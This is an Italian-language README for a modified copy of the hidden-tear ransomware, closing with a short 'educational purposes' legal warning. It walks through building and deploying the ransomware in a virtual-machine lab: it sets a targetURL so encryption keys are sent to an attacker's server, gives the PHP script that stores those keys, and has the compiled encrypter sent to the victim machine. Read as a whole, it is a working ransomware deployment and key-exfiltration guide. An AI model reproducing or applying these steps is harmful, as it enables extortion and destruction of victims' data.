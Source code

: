 Copia dello storico ransomware open source:

         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
                                                     
Per utilizzarlo mi sono servito di 
- due macchine virtuali: 
	- una con windows 10 che fungeva da vittima.
	- una con kali linux che faceva da attaccante.
- Il mio pc con visual studio installato. 

**Nel mio pc, con visual studio**

* A riga 40 del file *Form1.cs* aggiungere l'indirizzo IP della macchina con kali linux e l'indirizzamento al file keys.php (file che verrà spiegato nello successivamente nella guida):
```
  string targetURL = "http://192.168.17.128/keys.php?info=";                                                                     
```
* Nei file di encription e decription è stato corretto il problema del padding
* (opzionale) è possibile cambiare l'estensione dei file dopo la crittografia, nel mio caso sono settati a *.bloccato*, per farlo bisogna cambiare l'estensione sia nell'encrypter che nel decrypter.


**Nella macchina con kali linux**
* Nella cartella var/www/html creare un file data.txt e un file keys.php. Per farlo bisogna aprire un terminale nella cartella e lanciare:
```
sudo gedit data.txt
sudo gedit keys.php
         
```
* Con i permessi di amministratore settare l'accesso read and write al file data.txt da parte di www-data nella sezione group. Bisogna entrare nel file manager in modalità sudo, per entrarci ho eseguito:
```
sudo xdg-open .
```
* In *keys.php* ho inserito questo codice:
```
 <?php
	$info = $_GET['info'];
	$file = fopen("data.txt", "a");
	fwrite($file, $info."". PHP_EOL);
	fclose($file);
?>
         
```
* Infine aprire un terminale nella stessa cartella e lanciare:
```
service apache2 start                                                                           
```

**Alla macchina 'vittima'** 

* Inviare i file 
	- *hidden-tear.exe* che si trova in [\hidden-tear\hidden-tear\bin\Debug] 
	- e *hidden-tear-decripter.exe* che si trova in [\hidden-tear-decrypter\hidden-tear-decrypter\bin\Debug]

**Riferimento**

[Riferimento video](https://www.youtube.com/watch?v=ILlTB0-xT-k&t=387s)

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

Anche se questo può essere utile per alcuni, ci sono rischi significativi. Può essere utilizzato solo per scopi educativi. Non usarlo come ransomware! Potresti finire in prigione con l'accusa di ostruzione alla giustizia, anche se sei innocente.

Non mi assumo alcuna responsabilità per eventuali danni a persone, hardware o software, diretti o indiretti, che dovessero verificarsi come conseguenza dell’utilizzo dei miei progetti (inclusi, senza limitazioni, i danni all’integrità fisica e i danni per perdita o mancato guadagno, interruzione dell’attività, perdita di informazioni o altre perdite economiche).

